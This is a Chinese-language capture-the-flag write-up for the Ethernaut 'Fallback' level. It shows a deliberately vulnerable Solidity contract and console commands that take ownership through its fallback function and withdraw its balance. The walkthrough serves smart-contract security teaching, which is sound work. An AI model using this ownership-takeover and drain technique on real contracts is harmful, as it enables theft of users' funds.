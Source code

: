 ## Fallback

来源于Ethernaut wargame

## 0x01 Source code

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract Fallback is Ownable {

  mapping(address => uint) public contributions;

  function Fallback() public {
    contributions[msg.sender] = 1000 * (1 ether);
  }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    owner.transfer(this.balance);
  }

  function() payable public {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 0x02 Need2know

- fallback在智能合约里面是一个比较特殊的函数，它没有函数名，且仅在下面情况下执行：
  - Contract receives ether
  - Someone calls the function not in the contract
  - the parameter is incorrect
- 在源代码中，`function() payable public`就是一个fallback函数

## 0x03 Solution

首先题目给定的任务有两个：

- Claim ownership of the contract
- Reduce its balance to 0

首先看到`contribute()`函数，当`value`值小于0.001时就可以成为contributor

```javascript
await contract.contribute({value:toWei(0.0001)})
```

检查一下是否成为了contributor，可以使用源码自带的`getContribution()`

```javascript
await contract.getContribution().then(x => x.toNumber())
```

接下来发送ether来触发fallback，因为得到了contributor身份，并且发送的value为正值，可以获得owner身份：

```javascript
contract.send(1)
```

任务目标一达成，检查owner身份（可以使用player查看是否一致）：

```javascript
await contract.owner()
```

接下来就可以使用`withdraw()`达成第二个目标任务：

```javascript
contract.withdraw()
```



